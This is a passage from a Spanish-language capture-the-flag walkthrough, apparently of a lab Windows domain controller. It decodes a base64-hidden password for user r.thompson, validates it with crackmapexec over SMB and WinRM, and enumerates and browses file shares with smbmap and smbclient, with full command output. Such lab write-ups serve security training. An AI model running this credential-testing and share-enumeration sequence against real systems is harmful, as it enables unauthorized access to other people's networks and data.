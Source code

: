 Encontramos fijandonos con nuestro Ojo de Lince una cadena en base64 que podria ser una `Password` para el Usuario `r.thompson` 
```bash
echo "clk0bjVldmE=" | base64 -d                                                                                                 
"rY4n5eva"  --> Password 
```

Procedemos a chequear con crackmapexec la password para el user r.thompson
```bash
crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva                                                                                 
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva
```

Chequeamos para ver si con `winrm` : 
```bash
crackmapexec winrm 10.10.10.182 -u r.thompson -p rY4n5eva                                                                         
WINRM       10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [-] cascade.local\r.thompson:rY4n5eva
```

Vemos que el usuario `r.thompson` no pertenece al grupo de `Remote Managment System`
Procedemos a listar Recursos compartidos para el usuario `r.thompson` a nivel de `SMB`

```bash
smbmap -H 10.10.10.182  -u r.thompson  -p rY4n5eva                                                      

[+] IP: 10.10.10.182:445        Name: cascade.local                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share
```

Vemos que tenemos los Permisos de lectura para `Data, NETLOGON, print$, SYSVOL` ... 
Usamos la tool `smbclient` para listar el Recurso en `Data`
```bash
smbclient //10.10.10.182/Data -U 'r.thompson%rY4n5eva'                                                                                                  
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 27 04:27:34 2020
  ..                                  D        0  Mon Jan 27 04:27:34 2020
  Contractors                         D        0  Mon Jan 13 02:45:11 2020
  Finance                             D        0  Mon Jan 13 02:45:06 2020
  IT                                  D        0  Tue Jan 28 19:04:51 2020
  Production                          D        0  Mon Jan 13 02:45:18 2020
  Temps                               D        0  Mon Jan 13 02:45:15 2020
```
